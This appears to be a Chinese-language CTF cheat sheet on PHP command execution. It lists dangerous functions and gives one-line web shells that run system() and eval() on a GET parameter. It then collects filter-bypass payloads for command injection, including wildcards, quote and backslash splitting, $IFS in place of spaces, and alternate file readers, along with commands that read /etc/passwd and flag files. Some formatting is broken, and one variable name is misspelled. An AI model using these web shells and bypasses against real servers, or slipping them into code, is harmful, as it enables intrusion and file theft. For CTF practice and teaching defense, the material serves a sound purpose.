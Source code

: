 ## 常见危险函数

#### 命令执行函数：

+ `shell_exec()`
+ `system()`
+ `exec()`
+ `passthru()`
+ `pcntl_exec()`
+ ``popen()`
+ `proc_open()`
+ ````（反引号）`

测试代码：

```
<?php @system($_GET['cmd']);?>
```

#### php代码执行函数：

+ `eval()`
+ `assert()`
+ `preg_replace()`
+ `call_user_func()`

测试代码：

```
<?php @eval($_GET['cmd']);?>
```



**特别说明：**

1. `system` 函数：
	- 执行指定的命令，并输出命令的结果。
	- 返回最后一行命令的输出，如果执行失败则返回 `false` 。
2. `exec` 函数：
	- 执行指定的命令，但不输出结果。
	- 返回命令执行结果的最后一行。通过提供第二个参数，可以以数组形式获取完整的输出。
3. `passthru` 函数：
	- 执行指定的命令，并直接将命令的原始输出发送到浏览器。
	- 函数返回 `NULL` 。





## 各种绕过

#### 通配符绕过

```
?绕过：表示匹配任意单个字符
*绕过：表示匹配任意数量（包括零个）的字符
[]绕过：用于匹配方括号内的任意一个字符。例如，[abc] 可以匹配 a、b 或 c 
[-]绕过：用于指定一个字符范围。例如，[a-z] 匹配从 a 到 z 范围内的任意小写字母
{}绕过：用于指定可重复的模式。例如，{a,b,c} 可以匹配 a、b 或 c
```

#### 反斜杠绕过

```
fl\ag.php
```

#### 双引号绕过

```
fl"ag".php
```

#### 空格绕过

```
//$IFS在linux下表示分隔符
$IFS
${IFS}
$IFS$9
$IFS$1
———————————————————————————————————————————————————————————————————————————————————————————————————————————————————
这两个也行
<
<>
———————————————————————————————————————————————————————————————————————————————————————————————————————————————————
//用逗号实现空格功能
{cat,flag.php}
———————————————————————————————————————————————————————————————————————————————————————————————————————————————————
//url传递,这个好像必须在php环境
%09
%20
```

### 关键字绕过

##### cat过滤

```
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
sh /flag 2>%261  //报错出文件内容
strings:可以查看
rev:反过来看
新增一个xxd可以读取文件
———————————————————————————————————————————————————————————————————————————————————————————————————————————————————
骚操作
curl file:///flag 也行
bash -v /etc/passwd
date -f 好像可以越权读取文件
```

另外，也可以考虑用`cp`和`mv`函数将文件重命名来读取

---

执行Linux的系统命令时，可以在命令前加上井号，可以获取长度，在构造命令时非常有用

```
示例:
$RANDOM
它会生成一个随机数，长度一般是 4 位或者 5 位，也就是说我们可以由此得到 4 或者 5 。
------------> ${#RAMDOM}
```

